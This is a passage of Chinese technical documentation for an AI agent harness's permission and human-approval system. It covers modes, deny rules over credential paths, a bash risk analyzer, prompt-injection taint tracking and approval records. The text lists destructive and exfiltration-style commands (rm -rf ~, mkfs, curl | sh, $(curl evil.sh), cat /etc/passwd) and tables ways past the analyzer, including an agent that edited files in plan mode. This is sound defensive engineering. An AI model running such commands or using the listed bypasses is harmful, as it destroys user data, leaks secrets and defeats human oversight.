



# 17 权限与人审

一个能读写文件、执行命令的 Agent，每次工具调用前都要回答一个问题：**这一步可以直接做、需要问人，还是不能做？**
本章拆解 flywhl-harness 的判定管线：模式、规则、命令分析、污点如何叠加，人审如何做到“持久等待、只决定一次、审批的就是要执行的动作”，
以及这套机制的边界在哪里。

## 纵深防御：权限只是其中一层

先建立一个预期：任何单层机制都会被绕过。权限系统的定位是 **让大多数调用得到正确的默认处理**，而不是做最终的安全边界。

| 层 | 回答的问题 | 本项目的位置 | 失效时谁兜底 |
|---|---|---|---|
| 模式 | 这个会话整体有多信任 Agent | `Mode`（default / accept_edits / plan / bypass） | 规则 |
| 规则 | 哪些动作被显式放行 / 禁止 | `Rule`、`MANAGED_BASELINE` | 命令分析、人审 |
| 命令分析 | 这条 bash 实际做了什么 | `policy/bash_analyzer.py::analyze` | 人审、沙箱 |
| 污点 | 当前上下文是否可能已被注入 | `RunContext.tainted` | 人审 |
| hooks | 团队自定义的额外约束 | [16 Hooks](/governance/hooks)（只能收紧） | 沙箱 |
| 人审 | 人是否认可这个具体动作 | `ApprovalBroker` | 沙箱、快照回滚 |
| 沙箱 | 即使以上全部失效，损失能有多大 | [18 Workspace 与沙箱](/governance/workspace-sandbox) | 审计与恢复 |
| 审计 | 事后能否还原发生了什么 | 事件流、`approvals` 表、轨迹 | — |

## 判定流程

`PermissionPolicy.evaluate()`（`src/flywhl_harness/policy/permissions.py`）与执行器 `ToolExecutor._run_one()` 合起来的流程：



## 四种模式

模式决定 **没有规则命中时** 的默认姿态（`PermissionPolicy._mode_default`）：

| 调用类别 | default | accept_edits | plan | bypass |
|---|---|---|---|---|
| 工作区内只读（read / ls / grep / 只读 bash） | allow | allow | allow | allow |
| 文件工具读取工作区外路径 | ask | ask | deny | allow |
| write / edit 工作区内文件 | ask | **allow** | deny | allow |
| bash 写操作（如 `pytest`、`echo > f`） | ask | ask | deny | allow |
| bash 访问工作区外路径（即使命令只读，如 `cat ~/.bashrc`） | ask | ask | deny | allow |
| 外部副作用（网络、通知、`git push`） | ask | ask | deny | allow |
| dangerous 命令被规则 allow 时 | 升为 ask | 升为 ask | — | 不升级 |
| 污点状态下的非只读 allow | 升为 ask | 升为 ask | — | 不升级 |
| 灾难性命令（`rm -rf ~`、`mkfs`、写块设备……） | deny | deny | deny | **deny** |

`examples/05_hooks_permissions.py` 打印的判定矩阵可以直接对照（`read ~/.ssh/id_rsa` 在四种模式下都是 deny，因为托管基线规则先于模式生效）。

几个值得注意的细节：

- **plan 模式是 mask 而不是 remove。** 写工具的定义仍然发给模型，只是在执行层拒绝，拒绝原因里写明“请先给出计划，待用户切换到执行模式后再修改”。
  不删工具定义有两个好处：工具列表是请求前缀的一部分，切换模式不会打破前缀缓存（见 [07 上下文工程](/core/context-engineering)）；
  模型知道有哪些能力，计划里能写出可执行的步骤。
- **plan 模式对副作用是硬上限，规则只能收紧。** 规则先于模式评估，早期版本里规则一命中就不再看模式：用户的 `allow:bash(npm test*)`、
  “本会话总是允许”的授权会在 plan 模式下直接放行写操作；托管基线的 `ask:bash(*.flywhl*)` 会把
  `find . -not -path './.flywhl/*' -exec sed -i …` 变成审批，无人值守自动批准时就在规划阶段改了文件（真实模型测试里出现过）。
  现在 plan 模式下非只读操作一律 deny；只读操作仍按规则判定（命中 ask 规则照样要确认）。
- **bypass 仍然受 deny 规则和灾难性命令拦截约束**，但不再做 dangerous 和污点升级——它只应在隔离沙箱里使用。
- **模式按 Run 生效。** `Harness.set_mode()` 只更新会话元数据，策略对象在 `_build_rc` 构造 Run 时创建，所以运行中切换模式从下一次 Run 起生效。

与 Claude Code 的模式对照（按调研资料，以官方文档为准）：

| Claude Code | 本项目 | 说明 |
|---|---|---|
| default | default | 基本一致 |
| acceptEdits | accept_edits | 自动接受文件编辑 |
| plan | plan | 只读 |
| bypassPermissions | bypass | 全放行 |
| dontAsk | 近似 `on_ask="deny"` | 未预先放行的一律拒绝，见下文“无人值守” |
| auto | 无 | 由后台分类器审查动作，本项目未实现 |

## 规则：语法、优先级与托管基线

规则语法是 `决策:工具(模式)`，工具和模式都是 glob：

```python
_RULE_RE = re.compile(r"^\s*(allow|ask|deny)\s*:\s*([\w*?\-\[\]]+)\s*(?:\((.*)\))?\s*$")
# allow:bash(git status*)    ask:write(src/**)    deny:read(**/.ssh/**)    deny:send_notification
```

规则匹配的不是单个字符串，而是一组“目标串”（`PermissionPolicy._targets`），任一命中即算命中：

| 工具 | 目标串 | 为什么 |
|---|---|---|
| bash | 原命令 + 各段命令 | `deny:bash(rm -rf*)` 要能命中 `ls && rm -rf x` 的第二段 |
| read / write / edit / ls / grep | 原始路径、解析后的绝对路径、相对工作区路径 | `deny:read(*/.ssh/*)` 要同时命中 `~/.ssh/id_rsa` 和 `../../.ssh/id_rsa` |
| 其它 | 参数里 `path` / `command` / `url` / `to` 的第一个 | 例如 `send_notification` 的收件人 |

`fnmatch` 的 `*` 会跨越 `/`，所以 `src/**` 与 `src/*` 等价——写规则时不要指望 `*` 只匹配一层目录。

**优先级：deny → ask → allow，先命中者生效。** 规则按来源分为 managed / project / user / session，但来源不参与排序：
任何来源的 deny 都排在所有 allow 之前评估，所以用户规则里的 `allow:bash` 推翻不了托管基线的 deny。
`tests/test_policy.py::test_rule_priority_deny_over_allow` 用 `["allow:bash", "deny:bash(rm -rf*)"]` 验证了这一点：
即便在 bypass 模式下，`rm -rf build` 仍是 deny，`ls` 是 allow。

托管基线 `MANAGED_BASELINE` 默认注入每个策略：

| 规则 | 意图 |
|---|---|
| `deny:read/grep/write/edit(<凭证位置>)`：`.ssh`、`id_rsa`/`id_ed25519`、`.aws`、`.config/gcloud`、`.azure`、`.kube`、`.docker/config.json`、`.netrc`、`.git-credentials`、`.config/gh`、`.pypirc`、`.pgpass`、`.vault-token`、`.gnupg`、`/etc/shadow`、`/proc/*/environ` | 模型不能通过文件工具读写凭证。清单在 `policy/sensitive.py`，与 bash 命令分析的 `SECRET_HINTS` 共用并由测试逐项核对；grep 递归遍历时也逐个文件跳过这些位置 |
| `ask:read/grep/write/edit(*.env、.env.*、.npmrc、*_history)` | 常含密钥、也常有正当用途的文件，读写都需确认 |
| `deny:write/edit(.flywhl/*)`、`ask:write/edit(flywhl.toml)`、`ask:bash(*.flywhl*)` | Agent 不能改写 harness 自己的状态与配置：`.flywhl/` 里是会话库、审批记录、快照与 `.flywhl/config.toml`，`flywhl.toml` 在下次启动时被加载（可以定义命令 hook）。放任它们被改写，等于让 Agent 跨重启给自己提权——`accept_edits` 模式会自动接受工作区内的编辑，bypass 更不必说，所以放在基线里 |
| `deny:bash(rm -rf /)`、`deny:bash(rm -rf /*)`、`deny:bash(rm -rf ~*)`、`deny:bash(mkfs*)`、`deny:bash(:(){*)` | 最具破坏性的命令直接拒绝 |

基线的 bash 规则是 **字符串 glob**，只拦得住字面写法：`rm -fr /`、`rm -r -f /`、`env rm -rf ~`、`timeout 5 rm -rf /`
都不命中 `deny:bash(rm -rf /)`。早期版本里它们在 default 模式下靠命令分析走到 ask，在 bypass 模式下 **直接放行**。
现在识别语义的是命令分析器的 `catastrophic` 标记，`evaluate()` 在查规则之前就处理它：

```python
if analysis and analysis.catastrophic:
    return PermissionResult(Decision.DENY, "灾难性命令，任何模式下都拒绝：" + analysis.catastrophic_reason,
                            "critical", effect, None, analysis.reasons)
all_rules = [*self.rules, *grants]
```

位置决定了语义：它在规则循环、模式默认、会话授权之前返回，所以 bypass 模式、`allow:bash` 规则、“本会话总是允许”都放不过它。
这类命令没有“确认后执行”的合理场景——删家目录、格式化磁盘，人在疲劳时点一次“批准”的代价无法挽回，所以不进审批，直接拒绝。
`tests/test_security.py::test_catastrophic_is_denied_in_every_mode` 在 default / accept_edits / bypass 三种模式下、
带 `allow:bash` 规则，断言 `timeout 5 rm -rf ~` 都是 deny。两层的覆盖面并不重合，可以对照看：

| 命令 | `catastrophic` | 基线 glob | 四种模式下的结果 |
|---|---|---|---|
| `rm -fr /`、`env rm -rf ~`、`rm -rf /usr`、`rm -fr ~/projects` | 是 | 不命中 | 全部 deny（灾难性命令） |
| `rm -rf ~/projects` | 是 | 命中 `deny:bash(rm -rf ~*)` | 全部 deny |
| `rm -rf ~/.cache/pip` | 否（只是 dangerous） | 命中 `deny:bash(rm -rf ~*)` | 全部 deny（托管规则） |
| `rm -fr ~/.cache/pip` | 否 | 不命中 | default / accept_edits 为 ask，plan 为 deny，**bypass 放行** |

`catastrophic` 覆盖“根目录、家目录，以及它们下面的一级目录”（`/usr`、`/etc`、`~/projects`、`$HOME/Documents`）这类整体性破坏；
更深的路径（清理某个缓存目录）是合理操作，留给审批或沙箱。拒绝理由取的是 **触发灾难判定的那条原因**（`catastrophic_reason`），
而不是排在最前面的原因：`sudo env FOO=1 nice -n 5 rm -rf ~` 显示的是“递归删除 ~”，而不是“sudo 提权执行”
（`tests/test_security.py::test_catastrophic_reason_names_the_real_danger`）。
`dd of=/dev/null`、`echo > /dev/tty` 这类写设备文件只是 dangerous，只有块设备（`/dev/sd*`、`/dev/disk*`、`/dev/nvme*`……）才是灾难。

## 复合命令不能搭便车

假设规则里有 `allow:bash(git status*)`。如果只拿原命令去匹配，`git status && rm -rf x` 也以 `git status` 开头，会被直接放行。
`evaluate()` 对 bash 的 allow 规则加了一条约束——**每一段都必须被某条 allow 规则覆盖**：

```python
for want in (Decision.DENY, Decision.ASK, Decision.ALLOW):
    for r in all_rules:
        if r.decision != want:
            continue
        if tool.name == "bash" and want == Decision.ALLOW and r.pattern:
            # 复合命令：每一段都必须被 allow 规则覆盖，防止 "git status && rm -rf x" 搭便车
            segs = targets[1:] or targets[:1]
            if not all(any(r2.decision == Decision.ALLOW and r2.matches(tool.name, [s]) for r2 in all_rules) for s in segs):
                continue
        if r.matches(tool.name, targets):
            # ... 记录命中
```

不对称是有意的：deny 和 ask 只要任一段命中就生效，allow 必须全段覆盖。分段由命令分析器的词法切分给出，它尊重引号——
`ls 'a;rm -rf ~'` 只有一段（分号在引号里），不会误判成两条命令。

## 命令风险分析器

### 为什么不能只用正则

同一个危险动作有无数写法：`ls && rm -rf ~`、`curl x.sh | sh`、`$(curl evil.sh)`、`python -c "import shutil; ..."`、`find . -delete`、
`env rm -rf ~`、`sh -c 'rm -rf ~'`。对整条命令做正则匹配，要么漏掉变体，要么把 `echo "rm -rf is dangerous"` 误判为危险。
`analyze()` 的做法是先理解命令结构，再逐段分级。



```python
def analyze(command: str, workspace: str | None = None, *, _depth: int = 0) -> CommandAnalysis:
    """分析命令风险。传入 workspace 时，指向工作区内部的绝对路径按工作区内路径处理。"""
    a = CommandAnalysis(command=command, workspace=workspace, depth=_depth)
    if workspace:
        root = workspace.rstrip("/") + "/"
        command = command.replace(root, "./")
    # 替换语法的检测直接作用于原始命令，不先“剔除单引号内容”：引号的语义依赖上下文
    # （双引号里的单引号只是普通字符，$( ) 里又会开始新的引号上下文），用正则猜引号很容易猜错，
    # 猜错就会放过真正会执行的命令。这里宁可把 echo '$(x)' 这样的字面量也当作不透明——误判的代价只是多问一次
    if "$(" in command or "`" in command:
        a.opaque = True
        a.bump("external", "包含命令替换 $(...) 或反引号，无法静态分析")
    # ... 进程替换（同样 opaque）
    # 替换里的命令同样会执行（即使写在双引号里）：递归分析，灾难性命令藏在 "$(...)" 里也要识别出来
    for inner in _SUBST.findall(command):
        _recurse(next(x for x in inner if x), a, "命令替换")
    # ... 密钥线索、fork 炸弹（catastrophic）、curl | sh
    try:
        lex = shlex.shlex(command, posix=True, punctuation_chars=";&|<>()")
        lex.whitespace_split = True
        tokens = list(lex)
    except ValueError as e:  # 引号不配对等
        a.bump("external", f"命令无法解析：{e}")
        return a
    # ... 按分隔符拆段，逐段 _classify
```

几处“为什么这样写”：

- **替换语法在原始命令上检测，不先“剔除单引号”。** 单引号里的 `$(...)` 确实不会展开，早期版本因此先用正则 `'[^']*'` 剔除单引号内容再检测。
  但引号的语义依赖上下文：`git status "it's $(rm -rf ~) '"` 里的两个单引号都在双引号内，只是普通字符，正则却把中间的替换当成单引号内容剔掉了；
  `"$(echo "'"; rm -rf ~; echo "'")"` 里，`$( )` 内部又开始一套新的引号上下文。两种写法都会让 `rm -rf ~` 真正执行而检测不到。
  所以现在不猜：任何位置出现替换语法都算不透明，替换内容也都递归分析。代价是 `echo '$(rm -rf ~)'` 这样无害的字面量会被误拒——
  安全检查宁可失败在“多问一次 / 多拒一次”这一侧（fail-closed）。
- **替换里的命令要递归分析，并标记 `opaque`。** 分段只按 `;`、`&&`、`|` 等分隔符切，`git status "$(rm -rf ~)"` 是 **一段**，
  会整段命中 `allow:bash(git status*)`——包括审批时“本会话总是允许”生成的授权。早期版本因此会直接放行它，bypass 模式下连 `echo "$(rm -rf ~)"` 也放行。
  现在替换内容会递归分析（灾难性命令照样拒绝），而 `opaque` 的命令即使命中 allow 规则也降为 ask：

  ```python
  if analysis and analysis.opaque and decision == Decision.ALLOW and self.mode != Mode.BYPASS:
      # allow 规则（含“本会话总是允许”的授权）按命令前缀匹配：git status "$(rm -rf ~)" 会命中 git status*，
      # 但替换里的命令不受规则约束——这类命令一律交给人确认
      decision, reason = Decision.ASK, "命令包含命令替换或进程替换，其中执行的命令不受 allow 规则约束，需要人工确认"
  ```

  见 `tests/test_security.py::test_allow_rule_cannot_cover_command_substitution`、`test_substitution_hiding_catastrophe_is_denied_even_in_bypass`。
- **`punctuation_chars`** 让 `ls&&rm` 这种没有空格的写法也能切出 `&&`。
- **解析失败按 external 处理。** 引号不配对的命令，shell 的理解和我们的理解可能不同，宁可多问一次。
- **工作区感知。** 把工作区根前缀替换成 `./` 之后，`echo hi > /path/to/ws/out.txt` 按工作区内写入（write）处理，
  `echo hi > /etc/out.txt` 仍是工作区外写入（external）——`test_bash_absolute_path_inside_workspace` 覆盖了这对用例。
  替换之后还剩下的绝对路径就都在工作区外，下文的边界检查依赖这一点。
- **`reasons[0]` 是决定性原因。** `bump()` 只在等级提升时把原因插到最前面，审批卡片展示第一条就能回答“为什么要问你”。

### 包装命令：按“真正执行的命令”分类

“命令名 → 等级”的白名单隐含一个假设：命令名决定行为。`env`、`timeout`、`nice`、`xargs`、`sudo` 打破了它——
它们只是“换个方式执行后面那条命令”。早期版本把 `env` 当只读命令，`env rm -rf ~` 因此被判为 read、在 default 模式下直接放行。
`_classify` 现在先调用 `_unwrap`：

```python
def _unwrap(words: list[str], a: CommandAnalysis) -> list[str]:
    """剥掉前置赋值与包装命令，返回真正执行的那条命令（可能为空：例如单独的 ``env``）。"""
    while words:
        while words and _ASSIGN.fullmatch(words[0]):
            words = words[1:]  # FOO=bar cmd ...
        if not words:
            return []
        name = words[0].rsplit("/", 1)[-1]
        if name not in WRAPPERS:
            return words
        rest, takes = words[1:], WRAPPERS[name]
        if name in ("sudo", "doas"):
            a.bump("dangerous", f"{name} 提权执行")
        while rest and (rest[0].startswith("-") or (name == "env" and _ASSIGN.fullmatch(rest[0]))):
            opt = rest.pop(0)
            if name == "env" and opt in ("-S", "--split-string") or opt.startswith("--split-string="):
                a.bump("external", "env -S 会把字符串再切分执行，无法静态分析")
            if opt in takes and rest:
                rest.pop(0)
        # ... command -v 只是查找命令位置，按只读处理；timeout 跳过时长参数
        if not rest:
            return [name] if name == "env" else []  # 单独的 env：打印环境变量
        words = rest
    return words
```

`WRAPPERS` 为每个包装命令记下“带一个参数值的选项”（`nice -n 10`、`timeout -s KILL`、`xargs -I {}`），剥选项时连值一起跳过，
否则 `10` 会被当成命令名、落进“未知命令”。外层是循环，所以 `sudo env FOO=1 nice -n 5 rm -rf ~` 会一层层剥到 `rm`。
覆盖的包装命令：`env`、`nice`、`ionice`、`nohup`、`time`、`timeout`、`command`、`exec`、`stdbuf`、`xargs`、`sudo`、`doas`、`caffeinate`。
`sudo` / `doas` 无论包的是什么都记为 dangerous；单独的 `env` / `printenv` 记为 external（会打印出环境里的密钥），`printenv HOME` 仍是 read。

### sh -c 与 eval：递归分析

`sh -c '...'` 的字符串本身就是一条命令。早期版本对它一律按“内联代码无法静态分析”记为 external，于是 `bash -c 'git status'` 也要问，
而 `sh -c "rm -rf ~"` 只是 ask。现在 `sh` / `bash` / `zsh` / `dash` / `ksh` 的 `-c` 参数和 `eval` 的参数都会被递归分析：

```python
def _recurse(script: str, a: CommandAnalysis, via: str) -> None:
    """``sh -c`` / ``eval`` 的字符串本身就是一条命令：递归分析（限制深度，防止构造的深层嵌套拖慢判定）。"""
    if a.depth >= 3 or not script.strip():
        a.bump("external", f"{via} 嵌套过深或内容为空，无法静态分析")
        return
    inner = analyze(script, a.workspace, _depth=a.depth + 1)
    a.bump(inner.level, f"{via}：{inner.reasons[0] if inner.reasons else '内层命令'}")
    a.reasons.extend(r for r in inner.reasons[1:] if r not in a.reasons)
    a.catastrophic = a.catastrophic or inner.catastrophic
    a.network = a.network or inner.network
```

内层的等级、`catastrophic`、`network` 全部向外传播；超过 3 层或内容为空时回到保守的 external。
从标准输入读脚本（`cat x | bash`）和 `source` 看不到脚本内容，仍按 external 处理。

### 工作区边界：只读命令也可能要问

文件工具早就有“读取工作区外路径需要确认”，bash 通道以前没有：`cat /etc/passwd` 是 read，default 模式直接放行。
读操作没有副作用，但读到的内容会进入模型上下文、轨迹和日志——这相当于一次数据外流的前半段。`_classify` 现在检查每个参数：

```python
# 工作区边界：参数（含 --opt=/path 的值）里出现工作区外路径
for j, w in enumerate(args, start=1):
    if j in redirect_targets:
        continue
    val = w.split("=", 1)[1] if w.startswith("-") and "=" in w else w
    if _is_outside(val, a):
        a.bump("external", f"访问工作区外路径 {val}")
        break
```

`_is_outside` 判定以 `/`、`~`、`$HOME`、`${HOME}` 开头的参数——工作区内的绝对路径在 `analyze()` 开头已被替换成 `./`，剩下的都在外面；
`/dev/null`、`/dev/stdin`、`/dev/urandom` 等少数设备路径豁免。重定向目标另有专门的分支，不在这里重复计算。
结果是 `cat ~/.bashrc`、`ls /usr/local/bin`、`grep -r TODO /` 都成为 external：default / accept_edits 下 ask，plan 下 deny。

### 逐段分级规则

| 等级 | 典型命中 |
|---|---|
| read | `ls`、`cat`、`grep`、`printenv HOME`、`command -v git`、`git status/log/diff`（含 `git -C sub status`）、不带 `-delete/-exec/-fprint` 的 `find`、不含 `w`/`e` 命令的 `sed`、不调用 `system()`/管道/重定向的 `awk`、`bash -c` 里的只读命令 |
| write | `rm`（非根/家目录）、`mkdir`、`pytest`、`make`、`sed -i`、`find -delete/-fprint/-fls`、`sort -o`、`git diff --output=…`、重定向写工作区内文件、`&` 后台执行、**未知命令** |
| external | `curl`、`ssh`、`docker`、`kubectl`、`git push/pull/fetch/clone`、`git config/submodule`、`git -c core.pager=…` / `alias.x=!…`、`npm install`/`pip install`、`python -c`、`cat x \| bash`、`source`、`env -S`、含 `system()` 的 `awk`、含 `w`/`e` 的 `sed`、单独的 `env`/`printenv`、命令替换、**参数或重定向指向工作区外路径** |
| dangerous | `sudo`/`doas`（包着任何命令）、`dd`、`mkfs`、`chown`、`rm -rf ~`、`git push --force`、`git reset --hard`、`curl \| sh`、密钥线索、写设备文件 |

“未知命令按 write 处理”是关键的保守选择：分析器不认识的东西，至少要在 default 模式下问一次。

`git` 单独解析：先跳过 `-C <dir>`、`--git-dir=…` 等全局选项再取子命令，所以 `git -C sub status` 是 read；
但 `-c` 能配置任意命令（`core.pager`、`core.sshCommand`、`*.textconv`、`alias.x=!cmd`），这类 `-c` 直接记为 external。

密钥线索（`SECRET_HINTS`）按字面匹配，命中即 dangerous：`.ssh/`、`id_rsa`、`.aws/`、`.kube/`、`.netrc`、`.env`、`credentials`、
`.npmrc`、`.pypirc`、`.pgpass`、`.git-credentials`、`.docker/config.json`、`.gnupg`、`.config/gh/`、`.vault-token`、`*_history`、
`/proc/*/environ`，以及 macOS 钥匙串的 `security find-generic-password` / `find-internet-password`。

### 两个附加标记：catastrophic 与 network

等级回答“要不要问”，两个布尔标记服务于另外两个决策：

| 标记 | 命中条件 | 谁在用 |
|---|---|---|
| `catastrophic` | 递归删除根目录、家目录或根下一级目录（`/usr`、`/etc`……）；`mkfs*`；`dd of=/dev/*`；重定向写块设备（`/dev/sd*`、`/dev/disk*`、`/dev/nvme*`……）；fork 炸弹；`chmod/chown -R` 根或家目录 | `evaluate()` 在一切规则与模式之前直接 deny |
| `network` | `curl`/`wget`/`ssh` 等外部命令、`git push/fetch/pull/clone`、`npm install`/`pip install` 等 | `BashTool.untrusted_for()` 据此把输出标记为污点，见下文 |

### 局限：它不是安全边界

模块注释里明确写着：命令分析“仍然不是安全边界——真正的兜底是沙箱”。早期版本可以实测出一批绕过，上面几节逐个补上了：

| 命令 | 早期版本 | 现在（default 模式） |
|---|---|---|
| `env rm -rf ~`、`timeout 5 rm -rf /`、`xargs rm -rf /` | read / write（`env rm -rf ~` 直接 allow） | catastrophic，所有模式 deny |
| `sh -c "rm -rf ~"`、`rm -rf $HOME` | ask | catastrophic，所有模式 deny |
| `awk 'BEGIN{system("rm -rf ~")}'` | read，**allow** | external，ask |
| `sort -o /etc/x a.txt`、`git diff --output=/tmp/x` | read，**allow** | external，ask |
| `cat /etc/passwd`、`cat ~/.bashrc` | read，**allow** | external，ask（plan 下 deny） |
| `bash -c 'git status'`、`git -C sub status` | ask | read，allow |

剩下的缺口有一个共同点：判断它们需要 shell **运行时** 的状态（当前目录、变量的值、脚本文件的内容），静态分析拿不到。

| 命令 | 分析结果 | 判定 | 问题所在 |
|---|---|---|---|
| `D=/etc; cat $D/passwd` | read | **allow** | 变量不展开 |
| `cat $XDG_CONFIG_HOME/gh/hosts.yml` | read | **allow** | 同上；密钥线索按字面匹配，`.config/gh/` 没有出现 |
| `python3 script.py` | write | ask | 脚本内容不可见，能做的事和 `python -c` 一样多 |
| `rm -fr ~/.cache/pip` | dangerous | ask，**bypass 放行** | 家目录下的深层路径不算 catastrophic，基线 glob 又只认 `rm -rf ~*` |

相对路径用 `..` 爬出工作区（`cat ../../etc/passwd`）现在会被识别：命令在工作区根目录执行，`_is_outside()` 对含 `..` 的相对路径做
`os.path.normpath`，结果以 `..` 开头即视为越界（`a/../b.txt` 仍在工作区内，`tests/test_security.py::test_analyzer_edge_cases`）。
但像变量、脚本内容这样的运行时状态，静态分析 shell 本质上做不完。这正是本章末尾“与 pi 的对照”一节中 pi 立场的出发点，
也是本项目在 [18 章](/governance/workspace-sandbox) 讨论沙箱的原因。
分析器的真正价值是 **降低审批疲劳**：让 `ls`、`git status` 这类高频只读命令不用问，把审批留给真正值得看的动作。

## 污点感知

提示注入的典型路径是：Agent 读了一段不可信内容（网页、Issue 评论、第三方 MCP 返回），内容里藏着指令，Agent 随后执行了有副作用的动作。
污点机制针对的是这条路径上的“随后”：

- **污点来源**：`Tool.untrusted_for(args)` 返回 True 的调用，或某次结果带 `ToolResult.tainted = True`。具体有三类：
  - bash：`BashTool.untrusted_for()` 取命令分析的 `network` 标记——`curl`、`wget`、`git pull`、`npm install` 取回的内容可能夹带注入；
  - MCP 工具：`openWorldHint` 按 MCP 规范默认为 true，服务器没有声明 `openWorldHint: false` 的工具输出一律视为不可信（见 [19 安全](/governance/security)）；
  - 子代理：子 Run 读过不可信内容，父 Run 也被标记——注入可以借子代理的回传结论进入父上下文。
- **传播与持久化**：执行器在每次调用结束后检查，一旦命中就把 `rc.tainted` 置为 True，写入会话元数据 `meta["tainted"]`，
  并发布 `code="tainted"` 的 notice。`_build_rc` 构造 Run 时从会话元数据还原，所以暂停恢复、崩溃接管、同一会话的下一次 Run 都继承污点；
- **效果**：`evaluate()` 的最后一步把非只读操作的 allow 升为 ask，原因写明“会话读取过不可信内容”。

```python
result = rc.context.shape_tool_result(result, rc.store.blobs, rc.scope)
if (result.tainted or tool.untrusted_for(args)) and not rc.tainted:
    rc.tainted = True
    self._persist_session_meta(tainted=True)  # 污点属于会话：暂停恢复、崩溃接管之后依然有效
    publish(E.NOTICE, {"level": "info", "code": "tainted",
                       "text": f"{call.name} 的输出来自不可信来源：之后的副作用操作将需要人工确认"})
```

```python
if tainted and effect != Effect.READ and decision == Decision.ALLOW and self.mode != Mode.BYPASS:
    decision, reason = Decision.ASK, "会话读取过不可信内容，副作用操作升级为人工确认（防提示注入）"
```

`test_taint_escalates_side_effects` 验证：accept_edits 模式下本来自动放行的 write，在污点状态下变成 ask。
`tests/test_security.py::test_network_output_taints_session_and_persists` 走完整链路：accept_edits 模式下先跑一条带 `curl` 的 bash，
之后的 `write` 也弹出审批，事件流里有 `tainted` notice，会话元数据里 `tainted` 为 True。

这是一个刻意粗粒度的设计：它不追踪“哪段数据流向了哪个参数”，而是“只要上下文里有不可信内容，后续副作用都要人看”。
粗粒度的代价是审批变多，好处是实现简单、不会漏。剩下的缺口使用时要心里有数：

| 缺口 | 后果 | 应对 |
|---|---|---|
| 工作区里的文件被视为可信，`read` 不是污点来源 | 克隆来的第三方仓库、导出的 Issue 文本里的注入不会触发升级 | 处理外来仓库时直接用 plan 模式或沙箱 |
| 污点只会置位、不会清除 | 会话一旦被污染，之后所有副作用都要确认，审批量上升 | 开一个新会话（历史里不再有被注入的内容） |
| bypass 与 `on_ask="allow"` 下不起作用 | 无人值守时污点防线消失 | 无人值守场景配合 `on_ask="deny"` 或沙箱 |

更系统的注入防御见 [19 安全](/governance/security)。

## 人审

### 审批对象

ask 的结果不是一个弹窗，而是一条持久化的审批记录（`runtime/store.py::ApprovalRecord`）：

| 字段 | 内容 | 为什么需要 |
|---|---|---|
| `tool`、`args` | 工具名与 **实际参数** | 审批的是要执行的动作 |
| `summary` | `Tool.describe_call(args)`，从参数生成 | 不用模型写的描述 |
| `risk`、`reason` | 风险等级与判定原因 | 告诉审批人“为什么要问你” |
| `status` | pending / approved / rejected / expired | 状态只能从 pending 迁移一次 |
| `decided_by`、`decision_reason` | 谁决定的、理由 | 审计；拒绝理由会回给模型 |
| `edited_args`、`remember` | 审批人改过的参数、是否本会话总是允许 | 见下文 |
| `created_at`、`expires_at`、`decided_at` | 时间戳 | 超时判定、等待时长统计 |

`approval_request` 事件在记录之外还带上命令分析的 `analysis`、`effect`，以及工具给出的变更预览 `preview`（截断到 8000 字符），
Web UI 的审批卡片据此展示风险、原因、命令分析、“变更预览”和可编辑的实际参数，提供“批准 / 本会话总是允许 / 拒绝”三个按钮。
预览只在事件里，`ApprovalRecord` 没有这个字段，`GET /api/approvals` 列出的待审批项看不到它。

`reason` 也为审批人做了处理：判定为 ask 时，`evaluate()` 把命令分析的首要原因附在理由末尾，
例如 `cat ~/.bashrc` 的理由是“外部副作用操作需要确认（访问工作区外路径 ~/.bashrc）”，而不只是一句笼统的“需要确认”：

```python
if decision == Decision.ASK and analysis and analysis.reasons and analysis.reasons[0] not in reason:
    reason = f"{reason}（{analysis.reasons[0]}）"  # 让审批人一眼看到“为什么要问”
```

### 生命周期



```python
